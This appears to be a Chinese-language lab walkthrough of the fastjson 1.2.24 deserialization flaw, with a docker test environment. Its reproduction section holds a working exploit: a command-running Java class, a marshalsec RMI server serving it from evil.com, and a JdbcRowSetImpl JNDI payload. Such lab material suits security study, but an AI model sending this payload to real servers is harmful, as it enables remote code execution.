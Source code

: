# fastjson 1.2.24 反序列化导致任意命令执行漏洞

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/

## 漏洞环境

运行测试环境：

```
docker compose up -d
```

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 漏洞复现

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload，带上RMI的地址：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

可见，命令`touch /tmp/success`已成功执行：

![](1.png)
